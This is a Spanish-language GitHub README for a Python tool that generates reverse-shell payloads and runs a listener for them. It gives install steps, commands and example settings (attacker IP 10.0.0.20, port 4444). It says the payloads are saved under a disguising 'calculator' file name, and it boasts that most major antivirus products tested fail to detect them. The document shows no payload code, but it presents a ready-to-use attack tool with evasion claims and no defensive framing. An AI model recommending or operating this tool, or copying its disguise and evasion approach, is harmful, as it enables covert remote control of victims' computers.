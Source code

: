 # Reverse Shell

Proyecto que consiste en generar un payload de reverse shell en python, el cual se ejecuta en la máquina objetivo y se conecta a un servidor controlado por el atacante.

- [Reverse Shell](#reverse-shell)
  - [Requisitos](#requisitos)
  - [Instalación](#instalación)
  - [Uso](#uso)
  - [Comandos](#comandos)
  - [Ejemplos](#ejemplos)
  - [Pruebas realizadas en antivirus](#pruebas-realizadas-en-antivirus)
  - [Capturas](#capturas)

## Requisitos

- ![Static Badge](https://img.shields.io/badge/Python-^3.12-yellow?logo=python&logoColor=white)

## Instalación

Clona el repositorio

```bash
git clone https://github.com/epmyas2022/reverse_shell.git
```

Entra al directorio del proyecto

```bash
cd reverse_shell
```

Instala las dependencias

```bash
pip install -r requirements.txt
```

## Uso

```bash
python reverse_shell.py
```

## Comandos

- `help`: Muestra la lista de comandos disponibles.
- `generate`: Genera un payload de reverse shell en python.
- `execute`: Inicia un servidor que escucha las conexiones de los payloads generados.
- `set`: Establece el valor de una variable.
- `exit`: Salir del programa.

## Ejemplos

Generar un payload de reverse shell especificando la dirección IP y el puerto del servidor

El siguiente comando setea la direccion IP del payload:

```bash
set generate.lhost 10.0.0.20
```

El siguiente comando setea el puerto del payload:

```bash
set generate.lport 4444
```

El siguiente comando genera el payload:

```bash
generate
```

![Reverse Shell Generate Command](./images/payload.png)

Los payloads generados se guardan en la carpeta raíz del proyecto. con el siguiente nombre: `calculator-{timestamp}`

Iniciar el servidor que escucha las conexiones de los payloads generados

El siguiente comando setea el puerto del servidor:

```bash
set session.lport 4444
```

El siguient comando setea el host del servidor:

```bash
set session.lhost 10.0.0.20
```

El siguiente comando inicia el servidor:

```bash
execute
```

![Reverse Shell Execute Command](./images/execute.png)

Para detener la escucha del servidor, presiona `Ctrl + C`

Para salir de la sesión, ejecuta el comando `exit`

## Pruebas realizadas en antivirus

✅ = No detectado
❌ = Detectado

- Windows Defender [✅]
- Avast [❌]
- ESETNOD32 [✅]
- McAfee [✅]
- Bitdefender [✅]

## Capturas

![Reverse Shell](./images/image.png)
